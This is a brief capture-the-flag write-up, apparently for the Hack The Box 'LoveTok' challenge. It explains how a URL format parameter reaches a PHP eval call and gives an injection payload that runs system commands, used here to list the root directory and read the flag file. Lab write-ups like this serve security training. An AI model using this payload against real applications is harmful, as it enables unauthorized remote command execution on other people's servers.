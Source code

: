 # LoveTok

a website that has an exposed input on the url bar

![image](https://github.com/IcariZ/HTB/assets/89731969/65de2bc4-fd42-4a21-b59e-6472660e44f3)

tempering the parameter, we found that we can give any input string we want.
![image](https://github.com/IcariZ/HTB/assets/89731969/c085d7e2-07ed-4014-9631-0d1b25c960aa)

from the source code, under TimeModel.php, anything that is in format is being process by giving slashes to prevent some malicious input
then being executed in eval statement

we can use this to get a shell

let's try to spawn shell with ``${system($_GET[cmd])}&cmd=pwd``

![image](https://github.com/IcariZ/HTB/assets/89731969/d07d1747-fb7a-4582-b0b8-c96138057aac)

then locate the flag with ``cmd=ls /``
![image](https://github.com/IcariZ/HTB/assets/89731969/65a3f771-6975-492f-8e5f-cb1712d0b650)

finally ``cmd=cat /flagbMxKo``
